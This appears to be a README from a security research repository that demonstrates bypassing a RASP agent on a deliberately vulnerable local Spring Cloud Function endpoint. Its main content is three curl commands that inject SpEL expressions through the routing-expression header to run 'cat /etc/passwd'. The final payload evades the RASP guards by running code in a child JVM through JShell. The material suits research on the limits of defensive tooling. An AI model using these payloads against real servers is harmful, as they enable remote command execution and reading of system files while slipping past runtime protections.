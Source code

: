 - Use your own RASP agent or use [rasp-agent](..%2Frasp-agent)
- if you use [rasp-agent](..%2Frasp-agent), add:
    - env RASP_AGENT_PATH=path/to/rasp-agent/target/rasp-agent-1.0.0-SNAPSHOT.jar
- Run [Main.kt](src%2Fmain%2Fjava%2Fcom%2Fapplicationsec%2FMain.kt) with the VM option:
    - -javaagent:path/to/rasp-agent/target/rasp-agent-1.0.0-SNAPSHOT.jar

# attempt 1 [We are blocked]
`curl  -X POST http://localhost:8080/iamvulnerable \
   -H "spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec('cat /etc/passwd')"`
    
    ![spel-block.png](spel-block.png)

# attempt 2 [We bypassed Spel guards but we are still blocked as there are other guards]

`curl  -X POST http://localhost:8080/iamvulnerable -H "spring.cloud.function.routing-expression:   T(java.lang.ClassLoader).getSystemClassLoader().loadClass(\"java.lang\" + \".Runtime\").getMethods()[0].invoke(null).exec(\"cat /etc/passwd\")"
`
    ![fork-block.png](fork-block.png)

# Bypass using JVM escape 

`curl  -X POST http://localhost:8080/iamvulnerable -H "spring.cloud.function.routing-expression:   T(jdk.jshell.JShell).create().eval('System.out.println(\"Bypassed RASP - \" + ((Runtime)ClassLoader.getSystemClassLoader().loadClass(\"java.lang\" + \".Runtime\").getMethods()[0].invoke(null)).exec(\"cat /etc/passwd\").toString())')"
`
As shown below, we execute code in a child JVM, where RASP agent is not loaded. 

![Capture d’écran 2024-03-24 à 13.21.04.png](..%2F..%2F..%2F..%2F..%2Fvar%2Ffolders%2Fw8%2Fr4kv8dx50r36vrvmhp6lxt8h0000gn%2FT%2FTemporaryItems%2FNSIRD_screencaptureui_a3pO6v%2FCapture%20d%E2%80%99%C3%A9cran%202024-03-24%20%C3%A0%2013.21.04.png)